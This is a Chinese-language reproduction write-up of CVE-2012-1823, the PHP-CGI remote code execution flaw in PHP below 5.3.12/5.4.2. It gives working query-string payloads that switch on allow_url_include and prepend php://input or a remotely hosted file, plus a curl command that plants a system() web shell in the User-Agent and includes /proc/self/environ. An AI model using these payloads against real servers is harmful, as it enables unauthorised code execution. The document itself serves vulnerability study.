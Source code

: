 （CVE-2012-1823）PHP-CGI远程代码执行漏洞
========================================

一、漏洞简介
------------

二、漏洞影响
------------

php \< 5.3.12 or php \< 5.4.2

三、复现过程
------------

cgi模式下有如下可控命令行参数可用：

-   `-c` 指定php.ini文件（PHP的配置文件）的位置
-   `-n` 不要加载php.ini文件
-   `-d` 指定配置项
-   `-b` 启动fastcgi进程
-   `-s` 显示文件源码
-   `-T` 执行指定次该文件
-   `-h`和`-?` 显示帮助

​ 那么最简单的利用方式就是`-s`可以直接显示源码![1.png](./resource/(CVE-2012-1823)PHP-CGI远程代码执行漏洞/media/rId24.png)-d参数好像就文件包含吧

### payload:

    -d+allow_url_include%3don+-d+auto_append_file%3dphp://input
    需要注意的是 =要用%3d(url编下码) 空格用+号代替或者%20
    -d+allow_url_include%3don+-d+auto_prepend_file%3dphp://input
    上面两种都行只不过一个在页面顶部加载文件一个是页面底部加载文件


     
    auto_prepend_file 在页面顶部加载文件

    auto_append_file  在页面底部加载文件 

![2.png](./resource/(CVE-2012-1823)PHP-CGI远程代码执行漏洞/media/rId26.png)远程包含:

payload:

    -d allow_url_include%3don+-d+auto_prepend_file%3dhttp://ip/1.txt

![3.png](./resource/(CVE-2012-1823)PHP-CGI远程代码执行漏洞/media/rId27.png)

本地包含:

payload:

    curl -H "USER-AGENT:<?php echo system($_GET["hk"]);?>" url -d auto_prepend_file%3d/proc/self/environ+-n

这里介绍下/proc/self/environ在文件包含中的作用

    如果服务器已过响应时间，还可以通过LFI重新利用，包括存储在User_Agent的/proc/self/environ文件，我们将把我们的PHP代码放置其中用于执行CMD命令 

我们可以把php代码放进user-agent里然后进行本地包含

但是我这里用bp修改user-agent不知道为什么不行 (一直显示超时)

![4.png](./resource/(CVE-2012-1823)PHP-CGI远程代码执行漏洞/media/rId28.png)

不过我们还是可以进行本地包含的 使用curl来完成

payload:

    curl -H "USER-AGENT:" https://www.0-sec.org:8080/index.php?-d+auto_prepend_file%3d/proc/self/environ+-n -o xxx.txt

![5.png](./resource/(CVE-2012-1823)PHP-CGI远程代码执行漏洞/media/rId29.png)

当然也可以使用之前提到的反弹shell
